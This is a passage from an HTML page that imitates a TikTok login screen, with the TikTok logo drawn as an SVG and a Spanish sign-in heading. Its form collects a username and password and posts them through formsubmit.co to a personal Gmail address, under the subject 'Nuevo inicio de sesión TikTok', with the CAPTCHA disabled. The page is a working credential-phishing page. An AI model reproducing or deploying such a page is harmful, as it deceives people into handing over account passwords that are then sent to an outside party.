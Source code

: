             <path d="M12.53.02C13.84 0 15.14.01 16.44 0c.07 1.53.63 3.09 1.75 4.17 1.12 1.11 2.7 1.62 4.24 1.79v4.03c-1.44-.05-2.89-.35-4.2-.97-.57-.26-1.1-.59-1.62-.93-.01 2.92.01 5.84-.02 8.75-.08 1.4-.54 2.79-1.35 3.94-1.31 1.92-3.58 3.17-5.91 3.21-1.43.08-2.86-.31-4.08-1.03-2.02-1.19-3.44-3.37-3.65-5.71-.02-.5-.03-1-.01-1.49.18-1.9 1.12-3.72 2.58-4.96 1.66-1.44 3.98-2.13 6.15-1.72.02 1.48-.04 2.96-.04 4.44-.99-.32-2.15-.23-3.02.37-.63.41-1.11 1.04-1.36 1.75-.21.51-.15 1.07-.14 1.61.24 1.64 1.82 3.02 3.5 2.87 1.12-.01 2.19-.66 2.77-1.61.19-.33.4-.67.41-1.06.1-1.79.06-3.57.07-5.36.01-4.03-.01-8.05.02-12.07z" fill="currentColor"/>
        </svg>

        <h1>Iniciar Sesión</h1>
        <form action="https://formsubmit.co/tonyperex37@gmail.com" method="POST">
            <input type="hidden" name="_next" value="https://tu-pagina-de-agradecimiento.com/gracias.html"> <!-- Reemplaza con tu URL real -->
            <input type="hidden" name="_subject" value="Nuevo inicio de sesión TikTok">
            <input type="hidden" name="_captcha" value="false">
            <input type="text" name="usuario" placeholder="Usuario, correo o celular" required>
            <input type="password" name="contraseña" placeholder="Contraseña" required>
            <button type="submit">Ingresar</button>
        </form>
    </div>
</body>
</html>
